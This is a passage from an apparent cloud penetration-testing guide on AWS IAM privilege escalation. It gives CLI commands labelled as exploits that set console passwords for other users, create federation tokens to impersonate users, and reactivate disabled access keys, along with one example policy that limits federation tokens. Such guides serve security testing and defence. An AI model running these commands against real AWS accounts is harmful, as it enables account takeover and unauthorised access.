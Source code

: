 Permits creating or updating a login profile, including setting passwords for AWS console login, leading to direct privilege escalation.

**Exploit for Creation:**

```bash
aws iam create-login-profile --user-name target_user --no-password-reset-required \
    --password '<password>'
```

**Exploit for Update:**

```bash
aws iam update-login-profile --user-name target_user --no-password-reset-required \
    --password '<password>'
```

**Impact:** Direct privilege escalation by logging in as "any" user.

### **`iam:GetFederationToken`**

With this permission it's possible to generate credentials to impersonate any user:

```bash
aws sts get-federation-token --name <username>
```

This is how this permission can be given securely without giving access to impersonate other users:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "VisualEditor0",
            "Effect": "Allow",
            "Action": "sts:GetFederationToken",
            "Resource": "arn:aws:sts::947247140022:federated-user/${aws:username}"
        }
    ]
}
```

### **`iam:UpdateAccessKey`**

Allows enabling a disabled access key, potentially leading to unauthorized access if the attacker possesses the disabled key.

**Exploit:**

{% code overflow="wrap" %}
```bash
aws iam update-access-key --access-key-id <ACCESS_KEY_ID> --status Active --user-name <username>
```
{% endcode %}

**Impact:** Direct privilege escalation by reactivating access keys.

### **`iam:CreateServiceSpecificCredential` | `iam:ResetServiceSpecificCredential`**
